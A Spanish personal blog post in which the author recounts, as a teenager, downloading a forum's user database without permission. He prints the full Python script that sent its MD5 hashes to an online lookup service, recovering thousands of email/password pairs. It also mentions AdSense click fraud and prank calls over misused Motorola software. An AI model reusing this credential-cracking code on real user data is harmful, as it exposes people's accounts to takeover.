 ```yaml
---
layout: post
title: Ensuciándome las manos en 2004
categories: [programming]
published: True
featured: true
date: 2012-09-17
category: Personal
markdown: markdown
image: /images/uploads/posts/hands-dirty/security_cameras.jpg
image_credit: Photo by <a href="https://unsplash.com/@scottwebb?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText">Scott Webb</a>
excerpt: En 2004, entre clases de instituto y partidas de Age of Empires, me topé con una base de datos de 20.000 usuarios con contraseñas MD5.
---
```

Si soy curioso ahora, lo era mucho más con 14 o 15 años. En aquella época me defendía bien con PHP, hacía mis pinitos con C, y empezaba a trastear con Python. La mitad del día lo pasaba en canales de IRC-Hispano, mayormente en canales de programación (#php_para_torpes, #python, etc) y Age of Empires (#aoc, #the_conquerors). Pasaba muchas horas y era muy activo, por lo que con los años acabé haciendo mi pequeña comunidad de ciber-amigos. Algunos de ellos programaban y montaban o gestionaban páginas o proyectos conocidos ([PHP_Hispano](http://www.php-hispano.net/) entre otros). 

Un día, me invitaron a *selecto* grupo privado donde se organizaban para aprovecharse de fallas del sistema de publicidad de Google: Adsense. Todos éramos bloggers (o webloggers por aquella época) y teníamos anuncios en nuestras páginas, y estos cafres habían montado un sistema semi-automático para pincharnos en las publicidades de unos a otros todos los días de una forma que aún Google no era capaz de filtrar. Cada día, mis anuncios recibían 12 clicks. Y así estuvimos 2 años. Al cabo de unos meses con el dinero conseguido, jubilé mi [Pentium 3 866Mhz](http://www.cpu-world.com/CPUs/Pentium-III/Intel-Pentium%20III%20866%20-%20RB80526PZ866256%20(BX80526C866256%20-%20BX80526C866256E).html) y 64Mb de RAM por un [AMD Athlon 3400+](http://www.cpu-world.com/CPUs/K8/AMD-Athlon%2064%203400+%20-%20ADA3400DAA4BZ.html) con 1Gb y en una caja chulísima, con luces de colores. Era 2004 y había ganado mis primeros 1.000€. 

También en aquel entonces, un chalado de este grupo que trabajaba para Motorola nos dió acceso ilimitado a un software interno en estado de pruebas con el que podíamos hacer llamadas a todo el mundo de forma gratuita. Obviamente lo usamos con fines maléficos y acabamos asustando mucho a la madre de un compañero puertoriqueño de #php_para_torpes. 

Total, que uno de estos contactos era un tío que había montado la primera plataforma de música en streaming de España, y lo estaba petando mucho. Solo en el primer par de meses había conseguido más de 20.000 usuarios registrados y no paraba de ampliar servidores para aguantar la carga de tráfico. Tenía un foro [phpBB](https://www.phpbb.com/) que iba a toda pastilla y necesitaba que alguien se lo gestionara: aquí entro yo. De repente, era administrador de una de las páginas del momento en España. Lo estaba flipando un poco trasteando por el panel de administración cuando me encontré con la gestión de Backups. No me pude aguantar... y descargué el backup de la base de datos. 

Estaba un poco asustado. Quería husmear, pero me daba cosilla. Pensé que si abría los ficheros .sql con notepad era menos malo que si hacía todo el esfuerzo de montarme una base de datos local y cargar el dump: eso ya sería premeditado, oye. Cuando abrí el dump de 20Mb con `gedit` me petó el ordenador. Ni Athlon 3400+ ni hostias. Tuve que abrirlo con `nano` para encontrarme, entre otras cosas, 20.000 lineas como esta: 

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}
![](/images/uploads/posts/hands-dirty/kid_surprised.jpeg){:class="img-right"}

20.000 usuarios con sus direcciones de correos y sus contraseñas en MD5. No recuerdo si en 2005 aún alguien confiaba en MD5, pero os aseguro que no era para nada la mejor forma de guardar contraseñas. A parte del famoso [John The Ripper](https://www.openwall.com/john/), existían páginas como [GDataOnline](https://web.archive.org/web/20060718024011/http://gdataonline.com/) (ya difunta) que contenían millones de hashs MD5 y sus correspondientes orígenes ([Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)). Básicamente, tu buscabas un hash y te devolvía (si lo conocía) el texto original. Además, la página tenía *una especie de API rudimentaria* que devolvía XML. 

Como me estaba calentando, escribí un script que leía el fichero .sql y encontraba el email y contraseña encriptado de cada usuario usando expresiones regulares. A lo bestia. La cosa se fue (la fui) moviendo y obviamente acabé mandando peticiones a GDataOnline para traerme contraseñas limpitas. 

Cada paso que daba me daba un poco más de miedo y más me imaginaba a la policía pegando en la puerta. 

Al cabo de unas horas, acabé con esto:

{% highlight python %}
#!/usr/bin/env python
# -*- coding: iso-8859-15 -*-
import re
import urllib
import os

def getPasswords():
  successful_passwords = 0
  num = 1

  file = r"inputFile001" #Change this for every file
  text = open(file, "r")
  content = text.read()
  text.close()
  user = re.findall("VALUES.*?;", content)

  output_file = r"outputFile001" #Change this for every file
  foo = open(output_file, "w")

  spaces = " "*32
  foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
  foo.write('-' * 90 + "\r")

  for i in user:
    nickname = i.split()[2].strip(",").strip("'")
    mail = i.split()[39].strip(",").strip("'")

    f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" 
                          % i.split()[3].strip(",").strip("'"))
    xml = f.read()
    passwords = re.findall(".*?", xml)

    if passwords: # If we get the original
     password = passwords[0].split("").pop().split("")[0]
     successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

    os.system("clear")
    print "Total: %i" % len(user)
    print "Analized: %i" % num
    print "Found: %i" % successful_passwords

    num += 1

  foo.close()
  print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Una delicia de código apoyado en todas las buenas prácticas de [Code Complete](https://www.amazon.com/Code-Complete-Practical-Handbook-Construction/dp/0735619670). Un orgullo. ¡Y lo mejor es que funcionaba! El código leía cada fichero de dump y, usando una expresión regular, identificaba todos usuarios. Luego iteraba sobre ellos, extraía el campo donde se encontraba la contraseña encriptada y la mandaba a GDataOnline. Si GDataOnline conocía la contraseña, me la devolvía y yo la escribía en un fichero junto con el username y el email: 

|**Nickname**|**Password**|**Mail**|
|juan|mipassword|juanito_perez@hotmail.com|
|miguel|12341234|the_big_boy@yahoo.com|
|admin|this_is_my_admin_password|admin@thissite.com|
|....|....|....|

Había conseguido el 30% de las contraseñas en texto plano... 6.000 pares de (email, contraseña) en una época en la que la gente ni siquiera sabía que era [2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication). La probabilidad de que esos credenciales dieran acceso a correos electrónicos, redes sociales o cuentas bancarias era bastante altas. 

Al cabo de unos días de no poder dormir tranquilo, borré los dumps y el fichero final, pero guardé el script (*obra de arte*) hasta hoy. Durante años mantuve el secreto oculto y nunca lo comenté a nadie: a fin de cuentas, muchos de mis amigos estaban registrados en esa web y muy probablmente había descubierto sus contraseñas. 

Ahora ya lo sabeis. 